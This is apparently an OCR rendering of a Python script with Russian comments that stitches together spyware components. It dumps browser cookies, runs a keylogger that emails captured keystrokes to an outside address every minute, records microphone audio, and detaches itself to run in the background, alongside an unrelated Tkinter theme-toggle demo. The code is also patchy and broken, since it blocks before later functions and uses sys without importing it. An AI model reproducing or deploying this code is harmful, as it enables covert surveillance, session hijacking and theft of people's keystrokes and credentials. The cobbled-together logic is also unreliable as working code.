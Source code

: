 jamshed
import requests
from bs4 import BeautifulSoup
import browser_cookie3
import pyotp
import telebot
import os
import smtplib
import keyboard
import pyaudio
import wave
import tkinter as tk
from threading import Timer
from datetime import datetime



# Загрузка cookies из браузера
def get_browser_cookies():
    cookies = browser_cookie3.load()  # Загрузка cookies из браузера
    for cookie in cookies:
        print(f"Name: {cookie.name}, Value: {cookie.value}, Domain: {cookie.domain}")

# Генерация OTP-кода
def generate_otp():
    totp = pyotp.TOTP("base32secret3232")
    otp_code = totp.now()
    print(f"Generated OTP: {otp_code}")



# Логирование клавиш
log = ""

def callback(event):
    global log
    log += event.name

def send_log():
    global log
    if log:
        # Отправка лога по email
        server = smtplib.SMTP("smtp.gmail.com", 587)
        server.starttls()
        server.login("your_email@gmail.com", "your_password")
        server.sendmail("your_email@gmail.com", "target_email@gmail.com", log)
        server.quit()
        log = ""
    Timer(60, send_log).start()  # Отправка лога каждые 60 секунд

keyboard.on_release(callback)
Timer(60, send_log).start()
keyboard.wait()

# Запись аудио
def record_audio(filename, duration=5):
    FORMAT = pyaudio.paInt16
    CHANNELS = 1
    RATE = 44100
    CHUNK = 1024

    audio = pyaudio.PyAudio()

    stream = audio.open(format=FORMAT, channels=CHANNELS,
                        rate=RATE, input=True,
                        frames_per_buffer=CHUNK)

    frames = []

    for _ in range(0, int(RATE / CHUNK * duration)):
        data = stream.read(CHUNK)
        frames.append(data)

    stream.stop_stream()
    stream.close()
    audio.terminate()

    with wave.open(filename, 'wb') as wf:
        wf.setnchannels(CHANNELS)
        wf.setsampwidth(audio.get_sample_size(FORMAT))
        wf.setframerate(RATE)
        wf.writeframes(b''.join(frames))

# Тема переключателя для Tkinter
def toggle_theme():
    if root["bg"] == "white":
        root["bg"] = "black"
        label["fg"] = "white"
    else:
        root["bg"] = "white"
        label["fg"] = "black"

root = tk.Tk()
root.title("Theme Toggle")

label = tk.Label(root, text="Hello, World!", bg=root["bg"])
label.pack()

button = tk.Button(root, text="Toggle Theme", command=toggle_theme)
button.pack()

root.mainloop()

# Запуск кода в фоновом режиме
def run_in_background():
    if os.name == "nt":
        # Для Windows
        import win32api
        win32api.FreeConsole()
    else:
        # Для Linux/macOS
        if os.fork():
            sys.exit()

# Пример использования
run_in_background()
